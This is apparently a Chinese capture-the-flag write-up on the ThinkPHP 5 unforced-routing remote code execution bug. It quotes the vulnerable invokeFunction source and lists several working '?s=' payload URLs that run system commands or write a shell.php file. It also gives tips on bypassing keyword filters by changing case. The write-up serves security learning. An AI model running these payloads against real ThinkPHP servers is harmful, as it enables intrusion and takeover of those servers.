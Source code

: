 在源码里找到了漏洞点！！在`./tp5/thinkphp/library/think/App.php`中，定义了payload里利用的`invokefunc`方法

这个 invokeFunction 方法通过`反射机制`动态调用一个函数，同时可以灵活绑定参数。它的核心功能是接受一个函数名和参数列表（`数组`），然后使用 PHP 的 ReflectionFunction 来安全地调用该函数，这个函数要可以处理数组，要达到rce的目标，可以使用`call_user_func_array`函数

```php
public static function invokeFunction($function, $vars = [])
{
    $reflect = new \ReflectionFunction($function);
    $args    = self::bindParams($reflect, $vars);

    // 记录执行信息
    self::$debug && Log::record('[ RUN ] ' . $reflect->__toString(), 'info');

    return $reflect->invokeArgs($args);
}
```

![40](https://the0n3.top/medias/show-think/40.png)


好了，那么一切都迎刃而解了。这个路由和方法太过于危险，如果普通用户也可以访问利用来执行命令非常可怕，事实上默认配置也是允许用户访问的，所以题目描述`未开启强制路由RCE`。

那么，理论上只要可以访问这个方法就可以实现rce，把常用的路由模式都是一遍（x），[新的url模式](https://www.kancloud.cn/manual/thinkphp5/118012)，并且tp5默认url不区分大小写了


- http://serverName/index.php（或者其它应用入口文件）/模块/控制器/操作/[参数名/参数值...]
- http://serverName/index.php（或者其它应用入口文件）?s=/模块/控制器/操作/[参数名/参数值...]

这里第一种方式似乎解析不了，用第二种`?s`来解析

```php
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
```

tp5的一些常用payload：

```php
?s=index/think\Request/input&filter=system&data=dir
?s=index/think\Request/input&filter[]=system&data=pwd
?s=index/think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/think\Container/invokefunction&function=call_user_func&vars[]=system&vars[]=dir
?s=index/think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

::: tip
提一下，tp5 url模式不再区分大小写了，所以如果出现过滤关键词的情况，可以尝试大小写绕过，只管去做！
:::

## web 604

> 描述：未开启强制路由，举一反二

::: tip
题目里给出了tp5的版本号：版本thinkphp 5.1.29，其实不给也是可以的，通过报错使tp框架报错，通过返回的版本号直接谷歌对于漏洞打，太爽了
:::
